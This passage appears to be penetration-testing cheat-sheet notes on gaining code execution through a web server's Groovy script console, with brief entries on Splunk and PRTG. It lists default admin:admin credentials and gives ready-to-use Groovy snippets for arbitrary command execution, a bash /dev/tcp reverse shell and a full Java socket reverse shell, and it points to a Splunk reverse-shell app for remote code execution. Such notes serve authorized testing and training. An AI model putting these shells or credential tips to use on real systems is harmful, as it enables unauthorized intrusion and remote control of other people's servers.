 By default, the database to store credentials doesn't allow users to register an account. We can access `/login` to recognize the server. The default admin creds are `admin:admin`

**Script Console**
The script console can be accessed at `/script`, allowing users to run Apache [Groovy](https://en.wikipedia.org/wiki/Apache_Groovy) scripts. Here's a way to run an arbitrary command:
```groovy
def cmd = '<command>'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

Here's a quick one line reverse shell:
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

For Windows hosts:
```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

Java reverse shell
```groovy
String host="<IP>";
int port=<port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
# Infrastructure and Network Monitoring
### Splunk
Default port is 8000.

Splunk can run code using server side Django apps, REST endpoints, scripted inputs, and alerting scripts. Common RCE on Splunk involves using scripted input.

**RCE With A Custom App**
We can create a custom app to run Python, Batch, Bash, or PowerShell (for Windows) scripts. We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk reverse shell guide to do so.
### PRTG
Networking monitoring software. Monitors devices and their protocols. These communicate with the main interface using a REST API. Common ports are 80, 443, or 8080.
